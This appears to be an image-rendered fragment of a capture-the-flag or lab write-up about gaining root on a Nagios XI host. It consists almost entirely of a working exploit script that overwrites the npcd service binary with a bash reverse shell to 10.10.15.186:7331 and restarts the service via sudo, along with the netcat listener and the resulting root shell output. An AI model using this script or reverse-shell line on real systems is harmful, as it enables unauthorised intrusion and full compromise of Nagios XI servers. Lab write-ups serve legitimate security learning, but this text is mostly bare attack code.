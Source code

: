 ```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 7331

listening on [any] 7331 ...

[CONTINUE]
```

```bash
#!/bin/bash

# Create npcd script
echo "#!/bin/bash" > /tmp/npcd
echo "bash -c 'bash -i >& /dev/tcp/10.10.15.186/7331 0>&1'" >> /tmp/npcd

# Grant executable permissions on the npcd script
chmod +x /tmp/npcd 2>/dev/null

# Stop the npcd service
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

# Replace original npcd script
cp /tmp/npcd /usr/local/nagios/bin/npcd 2>/dev/null

echo "[+] Start Up your listener"
sleep 1
echo "[+] nc -lvnp 7331"

sleep 15

echo "[+] Expect your shell noobies"

# start service to recieve reverse shell
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd

sleep 5

echo "[+] nice job hacker"
```

```
nagios@skills2:~$ chmod +x exploit.sh && ./exploit.sh
```

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.201.90] 58704
bash: cannot set terminal process group (38274): Inappropriate ioctl for device
bash: no job control in this shell
root@skills2:/#
```
